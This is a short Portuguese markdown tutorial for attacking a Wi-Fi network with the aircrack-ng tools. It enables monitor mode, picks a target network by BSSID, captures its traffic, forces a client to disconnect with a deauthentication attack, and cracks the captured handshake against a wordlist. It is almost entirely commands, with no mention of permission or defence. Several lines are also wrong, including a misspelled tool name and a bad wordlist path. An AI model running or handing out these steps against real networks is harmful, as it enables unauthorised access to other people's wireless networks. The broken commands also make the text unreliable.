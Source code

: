 ## Airmon-ng

### Configurando a interface para o ataque

* Use o comando `airmon-ng` para mostrar as interfaces disponíveis.   
`airmon-ng`  

* Escolha a interface para o ataque.  
`airmon-ng start wlan1`

* Use o novamente o comando `airmon-ng` para verificar que a interface entrou em modo de monitoramento(promíscuo).
`airmon-ng`

### Obtendo informações sobre a rede a ser atacada

* Procure a rede a ser atacada.  
`tcpdump -i wlan1mon -s 64000 -p`

* Depois de escolher a rede, pegue informações sobre ela com o comando abaixo:  
`airodump-ng wlan1mon`

* Coloque as informações da rede escolhida. E escolha um nome para o arquivo `arquivo-x`.  
`airodump-ng --channel 11 --bssid 43:2C:FE:A4:B8:6C -w arquivo-x wlan1mon`

### Atacando

* `airplay-ng -0 5 -a 'bssid' -s 'station' `  
`airplay-ng -0 5 -a 43:2C:FE:A4:B8:6C -s 1C:2B:3D:4E:5F:6A wlan1mon`

* `aircrack-ng -w /user/share/wordlists/sqlmap.txt -b ´bssid-do-alvo´ arquivo-x-01.cap`  


#### Vídeo ensinando:
https://www.youtube.com/watch?v=XshYRVcGiDU&feature=youtu.be
